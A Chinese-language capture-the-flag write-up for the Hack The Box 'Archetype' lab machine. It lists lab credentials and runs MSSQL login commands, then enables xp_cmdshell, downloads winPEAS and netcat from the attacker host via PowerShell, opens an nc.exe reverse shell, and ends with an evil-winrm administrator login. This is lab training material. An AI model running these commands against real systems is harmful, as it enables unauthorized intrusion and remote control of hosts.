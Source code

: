 # Archetype

下载

![image-20240727142012201](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727142012201.png)



![image-20240727142035966](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727142035966.png)

得到密码：

```
M3g4c0rp123
```

连接mssql

```
impacket-mssqlclient sql_svc:'M3g4c0rp123'@10.129.95.187 -windows-auth
```

![image-20240727141929681](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727141929681.png)

开启xp_cmdshell

```
 use master
 exec_as_login sa
 EXEC sp_configure 'show advanced options', 1
 RECONFIGURE;
 EXEC sp_configure 'xp_cmdshell', 1;
 RECONFIGURE;
 EXEC sp_configure 'xp_cmdshell';
```

```
EXEC xp_cmdshell 'powershell -c "Invoke-WebRequest -Uri http://10.10.16.30:9090/winPEASx64.exe -OutFile C:\Users\Public\Documents\winPEASx64.exe"';
```

![image-20240727145701586](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727145701586.png)



```
EXEC xp_cmdshell 'powershell -c "Invoke-WebRequest -Uri http://10.10.16.30:9090/nc.exe -OutFile C:\Users\Public\Documents\nc.exe"';
```

![image-20240727145335247](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727145335247.png)

![image-20240727145713344](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727145713344.png)



反弹一个shell

```
exec xp_cmdshell 'c:\users\public\documents\nc.exe -e cmd.exe 10.10.16.30 4444';
```

![image-20240727150201841](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727150201841.png)

![image-20240727150237457](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727150237457.png)



运行winPEASx64.exe



![image-20240727150542496](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727150542496.png)



查看文件

![image-20240727150655092](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727150655092.png)



桌面flag

![image-20240727151038760](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727151038760.png)



使用工具Evil-winrm连接远程主机

```
Evil-winrm 是一款使用ruby 语言开发的开源工具。 该工具具有许多很酷的功能，包括使用纯文本密码远程登录、SSL 加密登录、 NTLM 哈希登录、密钥登录、文件传输、日志存储等功能。该开发工具的作者不断更新工具并长期维护更新。 使用 evil-winrm，我们可以获得远程主机的 PowerShell命令终端会话。
```

```
evil-winrm -u administrator -p 'MEGACORP_4dm1n!!' -i 10.129.95.187
```

![image-20240727152123302](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727152123302.png)



![image-20240727152236861](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240727152236861.png)

